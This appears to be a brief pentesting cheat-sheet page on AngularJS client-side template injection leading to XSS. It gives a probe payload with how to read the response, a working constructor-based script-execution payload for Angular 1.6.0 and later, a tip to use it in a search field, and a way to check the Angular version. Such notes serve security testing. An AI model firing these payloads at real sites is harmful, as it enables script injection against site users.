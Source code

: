 # Angular XSS via TJ template injection

## XSS via Angular TJ template injection <a href="#via-angulattj-template-injection" id="via-angulattj-template-injection"></a>

`payload = {{4-1}}`

**→ if response = \{{4-1\}} > not vulnerable**\
**→ if response = 3 -> template injection !**

`payload = {{constructor.constructor('alert("XSSSS")')()}}`\
&#x20;

#### note  = must be angular >= 1.6.0

Older (see portswigger link)

![](../../../.gitbook/assets/54e9e5bef36c4f4eac4d855db9c7cc40.png)

**Use the payload in a search field:**

![](../../../.gitbook/assets/8e771d3bbce040b487c5e11a3bb0ea9d.png)

* Check Angular version :

`console / angular.version`
